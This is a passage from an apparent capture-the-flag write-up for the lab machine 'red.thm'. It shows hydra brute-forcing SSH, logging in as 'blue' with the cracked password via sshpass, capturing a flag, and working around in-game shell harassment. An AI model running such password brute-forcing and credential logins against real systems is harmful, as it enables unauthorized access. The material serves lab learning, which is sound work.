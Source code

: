 Result :

```bash
[22][ssh] host: red.thm   login: blue   password: sup3r_p@s$w0sup3r_p@s$w0
```


### SSH as blue

```bash
sshpass -p 'sup3r_p@s$w0sup3r_p@s$w0' ssh -o "StrictHostKeyChecking no" blue@red.thm
```

```bash
blue@red:~$ id
uid=1000(blue) gid=1000(blue) groups=1000(blue)
blue@red:~$ cat flag1
THM{Is_thAt_all_y0u_can_d0_blU3?}
```


## From blue to red


### Prevent pty from getting spammed

After idling for a while, I got this message... lol

```bash
blue@red:~$ I bet you are going to use linpeas and pspy, noob
Oh let me guess, you are going to go to the /tmp or /dev/shm directory to run Pspy? Yawn
Oh let me guess, you are going to go to the /tmp or /dev/shm directory to run Pspy? Yawn
```

Nah, I won't use linpeas and pspy

After a bit longer...

```bash
blue@red:~$ No you are repeating yourself, you are repeating yourself
Say Bye Bye to your Shell Blue and that password
```

I needed to crack the passwords again, I'll make it quick this time

```bash
hydra -l blue -P passlist.txt -e nsr ssh://red.thm
```

Add `-T` preventing getting a tty and get spammed, and use `rlwrap` to be able to get arrow keys working

```bash
rlwrap sshpass -p 'sup3r_p@s$w0sup3r_p@s$w0' ssh -o "StrictHostKeyChecking no" blue@red.thm -T
```

```bahs
bash -i
blue@red:~$ tty
tty
not a tty
```
